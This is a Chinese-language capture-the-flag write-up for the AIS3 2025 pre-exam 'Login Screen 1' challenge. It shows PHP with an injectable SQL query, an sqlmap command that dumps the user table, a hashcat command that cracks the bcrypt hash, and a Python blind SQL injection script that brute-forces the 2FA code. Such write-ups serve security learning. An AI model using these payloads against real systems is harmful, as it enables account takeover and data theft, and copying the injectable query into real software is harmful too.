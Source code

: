 ![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Login-Screen-1\problem.png)

### Solve

`index.php` 明顯有 sql injection

```php
// index.php
$stmt = $db->prepare("SELECT * FROM Users WHERE username = '$username'");
```

`init.php` 有 database scheme

```php
// init.php
$db->exec("CREATE TABLE IF NOT EXISTS Users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL UNIQUE,
    password TEXT NOT NULL,
    code TEXT NOT NULL
)");
```

直接用 sqlmap dump database

```bash
sqlmap -u "http://login-screen.ctftime.uk:36368/index.php" \
--forms -T Users -C username,password \
--dump
```

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Login-Screen-1\sqlmap.png)

拿到 hash

```
$2y$10$Hf11AOUj8lw13DogTnS3aOvjD1hPnfsOx8qMKZzG8dGCWujtTRvBC
```

用 hsahcat 爆密碼得到 admin

```bash
hashcat -m 3200 -a 0 hash rockyou.txt
```

login 後進到 2fa，這裡其實上一步 sqlmap 多一個 `code` 就可以，但我忘了，sqlmap 打太大力 IP 一直被 ban dump 不出來，只好自己寫 script。用 `'` 關閉 `username` 再用 `LIKE` 比較code 的前幾碼，一碼一碼爆

```python
import requests

code = ""

while True:
    for i in range(10):
        r = requests.post(
            "http://login-screen.ctftime.uk:36368/index.php",
            data = {
                'username': f"admin' AND code LIKE '{code}{i}%",
                'password': 'admin'
            }
        )
        if r.content != b"Invalid username or password.":
            code += str(i)
            print(code)
            break

        if i == 9:
            exit()
```
